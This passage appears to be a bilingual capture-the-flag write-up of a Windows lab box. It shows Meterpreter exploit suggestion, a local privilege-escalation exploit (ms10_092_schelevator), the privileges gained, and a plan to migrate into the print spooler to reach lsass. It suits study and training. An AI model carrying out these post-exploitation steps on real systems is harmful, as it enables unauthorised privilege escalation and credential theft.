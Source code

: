 ```
Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete* (Uso o comando exclusivamente para reconhecimento).

```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.18.26 - Collecting local exploits for x86/windows...
[*] 10.10.18.26 - 4 exploit checks are being tried...
[+] 10.10.18.26 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
```

Após isso, eu configurei o parâmetro de SESSION e LHOST

Depois de rodar o exploit, eu olhei os privilégios com o comando ```getprivs```

```
Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

## Terceira etapa

Primeiramente eu listei os serviços a procura do lsass. Eu busquei um processo com arquitetura similar a ele.

In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it! What's the name of the printer service?

Mentioned within this question is the term 'living in' a process. Often when we take over a running program we ultimately load another shared library into the program (a dll) which includes our malicious code. From this, we can spawn a new thread that hosts our shell.

```
ps
```
```
